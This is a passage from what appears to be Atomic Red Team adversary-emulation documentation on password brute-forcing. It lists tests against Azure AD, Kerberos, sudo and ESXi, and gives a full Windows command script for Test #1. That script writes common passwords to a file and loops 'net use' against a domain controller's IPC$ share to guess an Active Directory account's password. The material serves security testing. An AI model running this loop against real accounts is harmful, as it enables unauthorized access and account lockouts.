 - [Atomic Test #3 - Brute Force Credentials of single Azure AD user](#atomic-test-3---brute-force-credentials-of-single-azure-ad-user)

- [Atomic Test #4 - Password Brute User using Kerbrute Tool](#atomic-test-4---password-brute-user-using-kerbrute-tool)

- [Atomic Test #5 - SUDO Brute Force - Debian](#atomic-test-5---sudo-brute-force---debian)

- [Atomic Test #6 - SUDO Brute Force - Redhat](#atomic-test-6---sudo-brute-force---redhat)

- [Atomic Test #7 - SUDO Brute Force - FreeBSD](#atomic-test-7---sudo-brute-force---freebsd)

- [Atomic Test #8 - ESXi - Brute Force Until Account Lockout](#atomic-test-8---esxi---brute-force-until-account-lockout)


<br/>

## Atomic Test #1 - Brute Force Credentials of single Active Directory domain users via SMB
Attempts to brute force a single Active Directory account by testing connectivity to the IPC$ share on a domain controller

**Supported Platforms:** Windows


**auto_generated_guid:** 09480053-2f98-4854-be6e-71ae5f672224





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| user | Account to bruteforce | string | %username%|


#### Attack Commands: Run with `command_prompt`! 


```cmd
echo Password1> passwords.txt
echo 1q2w3e4r>> passwords.txt
echo Password!>> passwords.txt
echo Spring2022>> passwords.txt
echo ChangeMe!>> passwords.txt
@FOR /F "delims=" %p in (passwords.txt) DO @net use %logonserver%\IPC$ /user:"%userdomain%\#{user}" "%p" 1>NUL 2>&1 && @echo [*] #{user}:%p && @net use /delete %logonserver%\IPC$ > NUL
```






<br/>
<br/>

## Atomic Test #2 - Brute Force Credentials of single Active Directory domain user via LDAP against domain controller (NTLM or Kerberos)
Attempt to brute force Active Directory domain user on a domain controller, via LDAP, with NTLM or Kerberos
